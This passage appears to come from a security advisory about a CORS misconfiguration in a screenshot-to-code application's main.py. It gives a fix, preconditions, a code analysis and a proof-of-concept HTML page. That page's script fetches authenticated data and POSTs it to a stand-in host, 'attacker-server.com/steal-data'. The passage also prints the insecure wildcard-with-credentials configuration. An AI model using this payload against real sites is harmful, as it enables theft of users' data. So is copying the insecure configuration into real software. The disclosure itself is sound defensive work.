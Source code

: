 2. If a wildcard origin is necessary, disable credentials:
```python
app.add_middleware(
    CORSMiddleware,
    allow_origins=["*"],
    allow_credentials=False,
    allow_methods=["*"],
    allow_headers=["*"],
)
```

### Preconditions
- The user must be authenticated to the screenshot-to-code application
- The user must visit a malicious website crafted by the attacker while being authenticated
- The application must process sensitive operations or data that would be valuable for an attacker to access

### Source code analysis
In `main.py`, the CORS middleware is configured in a way that violates security best practices:

```python
app.add_middleware(
    CORSMiddleware,
    allow_origins=["*"],
    allow_credentials=True,
    allow_methods=["*"],
    allow_headers=["*"],
)
```

This configuration allows any website to make authenticated requests to the API. The CORS specification explicitly prohibits this combination because it poses a security risk. When `allow_credentials=True`, specific origins must be listed rather than using the wildcard "*".

Additionally, the permissive settings for `allow_methods=["*"]` and `allow_headers=["*"]` further increase the attack surface, allowing the attacker to use any HTTP method and include any headers in their requests.

### Security test case
To prove this vulnerability exists:

1. Deploy the application as is with the insecure CORS configuration
2. Create an authenticated session with the application
3. Create a malicious HTML page with the following JavaScript:
```html
<!DOCTYPE html>
<html>
<body>
<script>
  // This will execute when a user visits this page
  fetch('https://screenshot-to-code-instance.com/api/sensitive-endpoint', {
    method: 'GET',
    credentials: 'include' // This includes cookies in the request
  })
  .then(response => response.json())
  .then(data => {
    // Send the sensitive data to attacker's server
    fetch('https://attacker-server.com/steal-data', {
      method: 'POST',
      body: JSON.stringify(data)
    });
  });
</script>
</body>
</html>
```